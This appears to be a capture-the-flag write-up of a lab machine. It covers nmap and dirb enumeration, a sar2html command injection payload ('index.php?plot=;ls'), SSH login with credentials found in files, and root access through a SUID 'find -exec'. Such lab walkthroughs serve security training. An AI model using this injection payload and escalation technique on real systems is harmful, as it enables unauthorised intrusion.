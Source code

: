 ### Enum

> nmap -A $TARGET

on nmapres.txt

* port http -> apache

* port ftp:

### FTP
anonymous login:

hidden .info.txt:
```
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl! ----> ROT13 -----> Just wanted to see if you find it. Lol. Remember: Enumeration is the key!
```

SHM

---


### Full Enum 

> nmap -p- $TARGET

```
Nmap scan report for 10.10.93.225
Host is up (0.096s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
10000/tcp open  snet-sensor-mgmt
55007/tcp open  unknown
```

> nmap -sV -p 21,80,10000,55007 $TARGET

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* Googled : "MiniServ 1.930 exploit" : Nothing interesting
* [Webmin Security patches](http://www.webmin.com/security.html)

So we cannot exploit it properly

### CMS

let's dig into port 80 :

> dirb http://$TARGET

```
==> DIRECTORY: http://10.10.93.225/joomla/
```

Joomla!

Dig more: dirbres.txt

	```
	==> DIRECTORY: http://10.10.93.225/joomla/_archive/                                                
	==> DIRECTORY: http://10.10.93.225/joomla/_database/                                               
	==> DIRECTORY: http://10.10.93.225/joomla/_files/                                                  
	==> DIRECTORY: http://10.10.93.225/joomla/_test/
	```

Some trolling stuff with junk base64s and hashes

also dug into _files directory; Nothing there!
```
---- Scanning URL: http://10.10.93.225/joomla/_files/ ----
+ http://10.10.93.225/joomla/_files/index.html (CODE:200|SIZE:168)
```

#### Joomla/_test

Googled sar2html: Remote Command Execution

	* It runs commends over plot (index.php?plot=) parameter
	* URL injection forman index.php?plot=;$YOUR_COMMAND
	* command output on select Host <select> element

so let's ls;

> http://10.10.93.225/joomla/_test/index.php?plot=;ls

	* log.txt :
	```
	Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
	```
	
found some credintials on ssh ( On port 55007 )

### SSH

bastard:superduperp@$$ on port 55007
> ssh basterd@$TARGET -p 55007

Now we have shell access

> ls -la
> cat backup.sh

```
	.
	.
	.
	USER=stoner
	#superduperp@$$no1knows

	ssh $USER@$REMOTE mkdir $TARGET/$DATE
	.
	.
	.
```

we have found another user's creds :

> su stoner

now we are stoner :)

> ls -la
```
	-rw-r--r-- 1 stoner stoner    34 Aug 21  2019 .secret
```
> cat .secret

It contains the flag for Q#2#2

### PrivEsc
> id

```
	uid=1000(stoner) gid=1000(stoner) groups=1000(stoner),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

> sudo -l
```
	User stoner may run the following commands on Vulnerable:
	    (root) NOPASSWD: /NotThisTime/MessinWithYa
```

COOL! fooled again :'(


Gave up and tried LinEnum.sh
	1. transfer it to the target machine via SimpleHTTPServer and chmod +x
	2. ./LinEnum.sh > linenumres
	3. Download if from target machine

Interesting resualts:

```
### SOFTWARE #############################################

[-] MYSQL version:
mysql  Ver 14.14 Distrib 5.7.27, for Linux (i686) using  EditLine wrapper

[+] Possibly interesting SUID files:
-r-sr-xr-x 1 root root 232196 Feb  8  2016 /usr/bin/find
```

MySQL was running locally but useless.
but "find" command, it can execute commands as root via -exec parameter. Because it has the SUID of root set.

> find . -exec ls -la /root \;
> find . -exec cat /root/root.txt \;

and Done!



